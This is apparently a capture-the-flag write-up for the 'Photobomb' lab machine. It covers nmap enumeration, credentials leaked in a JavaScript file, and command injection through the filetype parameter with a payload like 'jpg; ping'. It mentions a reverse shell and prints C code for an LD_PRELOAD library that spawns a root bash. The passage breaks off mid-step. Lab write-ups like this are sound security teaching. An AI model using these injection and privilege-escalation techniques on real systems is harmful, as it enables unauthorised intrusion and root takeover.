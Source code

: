 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/photobomb 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-03 07:17 EDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.060s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Port 80
domain redirect -> photobomb.htb
Looking at the page source it pulls in a javascript file.
This file has credentials and an endpoint to login to.
```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

This shows a page where you can download a file. Analyzing the request in burpsuite shows that it is passing 3 parameters.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```
Removing parameters one at a time gives a ruby error.
dimensions:
`if !dimensions.match(/^[0-9]+x[0-9]+$/)`

file type:
`if !filetype.match(/^(png|jpg)/)`

photo:
`if photo.match(/\.{2}|\//)`

From here you can blindly fuzz things things or check the conditions for each parameter.
The file type only checks what the string beings with so the payload will take the form:
```
jpg<code>
```
check for code execution by pinging our host.
```
jpg; ping 10.10.14.18
```
url encode.
```
filetype=jpg%3b+ping+10.10.14.18
```
Start a tcpdump to check if the code ran.
```bash
sudo tcpdump -i tun0
```

This calls back to us!

# Exploit
As it is a ruby application my first thought was bash reverse shell. which didnt work. So a python one? nope, python3 yep :)

Now we are the wizard user.
checks for sudo -l we can run a backup.sh file with sudo.

It seems that LD_Preload is working so try a suid for bash within a file.
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
then compile it to 